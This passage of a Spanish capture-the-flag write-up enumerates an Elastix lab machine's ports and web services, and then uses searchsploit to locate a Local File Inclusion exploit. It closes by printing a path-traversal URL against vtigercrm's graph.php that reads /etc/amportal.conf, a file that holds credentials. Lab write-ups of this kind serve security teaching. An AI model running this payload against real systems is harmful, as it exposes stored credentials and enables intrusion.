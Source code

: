 | 993    | ssl/imap      |                    |                      |
| 995    | pop3          |                    |                      |
| 3306   | mysql         |                    |                      |
| 4190   | sieve cyrus   |                    |                      |
| 4445   | upnotifyp     |                    |                      |
| 4559   | HylaFAX       |                    |                      |
| 5038   | asterisk      |                    |                      |
| 10000  | http miniserv |                    |                      |

### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.7
```

Es un Apache 2.2.3 sobre un CentOS y habla de redirection sobre el protocolo https.

#### Checkear la web {-}

Cuando nos connectamos por el puerto 80, se ve la redirection al puerto 443 y entramos directo
en un panel de authentificacion `elastix`.

Si miramos el miniserv del puerto **10000** tambien vemos un panel de login.

En este caso buscamos por una vulnerabilidad associada a `elastix`

## Vulnerability Assessment {-}

### Elastix {-}

```bash
searchsploit elastix
```

Aqui vemos una serie de exploits y un script escrito en perl nos llama la atencion, porque permite hacer un
Local File Inclusion.

```bash
searchsploit -x 37637
```

Vemos que el exploit pasa por una url que usa path traversal.

```php
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```
